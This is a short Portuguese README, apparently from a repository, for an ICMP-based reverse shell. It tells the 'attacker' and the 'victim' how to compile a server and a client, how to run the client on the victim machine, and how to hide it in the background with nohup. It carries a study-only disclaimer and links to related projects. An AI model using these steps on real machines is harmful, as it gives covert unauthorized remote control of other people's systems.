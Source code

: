 # REVERSE SHELL

Este projeto é sobre shell reverso usando icmp, aqui está como ele pode ser usado:

# Uso

Primeiramente, compile-o em sua máquina


Atacante:
```bash
gcc servidor.c -o servidor -pthread
```

Vítima:
```bash
gcc cliente.c -o cliente -pthread
```

#### Para executar o servidor:

```bash
./servidor <ip>
```

#### Execute o cliente na máquina vítima

```bash
./cliente
```

Você pode usar o nohup para colocar o processo em segundo plano

```bash
nohup ./client &
```

### Reverse Shell é apenas para fins de estudo



## Referências

[ICMPSH](https://github.com/bdamele/icmpsh)

[ICMPSHELL](https://github.com/sin5678/icmp_shell)

[ICMPDOOR](https://github.com/krabelize/icmpdoor)
# Reverse-Shell
